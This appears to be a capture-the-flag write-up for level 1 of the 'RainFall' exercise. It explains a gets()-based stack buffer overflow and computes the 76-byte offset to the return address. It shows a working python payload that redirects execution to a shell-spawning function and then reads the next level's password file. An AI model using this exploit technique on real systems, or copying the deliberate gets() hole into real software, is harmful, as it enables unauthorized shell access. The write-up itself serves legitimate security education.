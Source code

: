 # Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -static source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Let's focus on the `main` function. It reads input using the gets function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 80 bytes:
```
# Allocating 80 bytes on the stack
0x08048486 <+6>:     sub    $0x50,%esp

# Calculate the address of esp + 16, since we allocated 80 bytes for the stack our buffer will therefore be 64 bytes.
0x08048489 <+9>:     lea    0x10(%esp),%eax
```

The buffer is 64 bytes long. Therefore, passing more than 64 bytes to the program will result in a buffer overflow. Our goal is to overflow the stack until we reach the return address of the main function, which is 12 bytes after the buffer.
> If the stack layout isn't as straightforward as the one in this exercise, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However when possible try to understand the stack layout with the `sub` instruction.

Anything written beyond those 76 bytes (64 bytes of buffer + 12 bytes to reach the return address) will be treated as an address and jumped to by the `ret` instruction of the `main` function.

Now, we need to find the address of the `run` function, which spawns a shell, to jump to it:
```
(gdb) info function run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

Let's craft our payload:
```bash
64 bytes + 12 bytes = 76 bytes
\x08\x04\x84\x44 = 0x08048444 address of run function

level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && cat) | ./level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We are now level2! Let's move on to the next level.
